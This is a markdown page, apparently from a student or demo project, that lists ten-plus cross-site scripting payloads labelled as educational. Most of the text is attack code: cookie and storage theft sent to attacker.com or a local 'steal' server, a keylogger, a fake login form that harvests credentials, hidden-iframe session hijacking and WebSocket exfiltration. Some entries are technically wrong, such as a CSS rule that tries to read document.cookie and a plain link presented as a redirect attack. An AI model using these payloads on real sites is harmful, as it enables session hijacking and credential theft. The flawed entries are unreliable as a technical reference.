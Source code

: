 Here are some **real-world XSS attack examples** that can be used for educational purposes in your project. These examples demonstrate how attackers exploit vulnerabilities to execute malicious scripts.

Tested: 
A) <img src="x" onerror="alert('XSS Attack!')">
b) document.body.innerHTML = '<h1>Hacked by Attacker</h1>';
c) redirecting page:
    <a href="https://www.youtube.com/" target="_blank">Click here</a>
d) staling cookies:
    const img = document.createElement('img'); img.src = 'http://localhost:3000/steal?session=' + document.cookie; document.body.appendChild(img);
e) staling localStorage and sessionStorage:
    const data = {
        localStorage: JSON.stringify(localStorage),
        sessionStorage: JSON.stringify(sessionStorage)
    };
    fetch('http://localhost:3000/steal', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(data)
    });

### 1. **Stealing Cookies**
Attackers can use XSS to steal session cookies, which can then be used to impersonate a user.

    <img src="x" onerror="document.location='http://attacker.com/steal?cookie=' + document.cookie">

NOTE: change 'http://attacker.com/steal?cookie=' TO 'http://localhost:3000/steal?session=' after running server.js

**Explanation**:
- The `onerror` event triggers when the image fails to load.
- The script sends the user's cookies to the attacker's server.


### 2. **Keylogger**
An attacker can inject a script to log keystrokes and send them to a remote server.

    <script>
        document.addEventListener('keypress', function(e) {
            fetch('http://attacker.com/log', {
                method: 'POST',
                body: JSON.stringify({ key: e.key })
            });
        });
    </script>

**Explanation**:
- The script listens for keypress events.
- Each keypress is sent to the attacker's server.


### 3. **Fake Login Form**
An attacker can inject a fake login form to steal user credentials.

    <form action="http://attacker.com/steal-credentials" method="POST">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username">
        <label for="password">Password:</label>
        <input type="password" id="password" name="password">
        <button type="submit">Login</button>
    </form>

**Explanation**:
- The form submits user credentials to the attacker's server.


### 4. **Redirect to Malicious Site**
Attackers can redirect users to a malicious website.

    <script>window.location = 'http://malicious-site.com';</script>

**Explanation**:
- The script redirects the user to a malicious website.


### 5. **Defacement**
An attacker can modify the content of the page to display offensive or misleading information.

    <script>
        document.body.innerHTML = '<h1>Hacked by Attacker</h1>';
    </script>

**Explanation**:
- The script replaces the entire page content with a custom message.


### 6. **Session Hijacking via Hidden Iframe**
Attackers can use hidden iframes to steal session cookies or perform actions on behalf of the user.

    <iframe src="http://attacker.com/steal-session" style="display:none;"></iframe>

**Explanation**:
- The iframe is hidden using CSS.
- It loads a malicious page that can steal session cookies or perform unauthorized actions.


### 7. **DOM-Based XSS**
Attackers can manipulate the DOM to execute malicious scripts.

    <script>
        const urlParams = new URLSearchParams(window.location.search);
        const param = urlParams.get('input');
        document.body.innerHTML = param;
    </script>

**Explanation**:
- The script reads a parameter from the URL and injects it into the DOM without sanitization.
- This allows attackers to craft a URL with malicious scripts.


### 8. **Event Listener Injection**
Attackers can inject event listeners to execute malicious code.

    <div id="target" onmouseover="alert('XSS via Event Listener')">Hover over me</div>

**Explanation**:
- The `onmouseover` event triggers when the user hovers over the element.
- The injected script executes malicious code.


### 9. **CSS Injection**
Attackers can use CSS to execute malicious actions or exfiltrate data.

    <style>
        body { background: url('http://attacker.com/steal?data=' + document.cookie); }
    </style>

**Explanation**:
- The CSS rule sends cookies or other sensitive data to the attacker's server.


### 10. **WebSocket Hijacking**
Attackers can use WebSockets to exfiltrate data in real-time.

    <script>
        const ws = new WebSocket('ws://attacker.com');
        ws.onopen = () => ws.send(document.cookie);
    </script>

**Explanation**:
- The script opens a WebSocket connection to the attacker's server.
- It sends cookies or other sensitive data over the connection.


### Educational Note
These examples are for **educational purposes only**. They demonstrate the importance of input validation and sanitization to prevent XSS attacks. Always ensure that user input is properly sanitized and escaped before rendering it in the DOM.
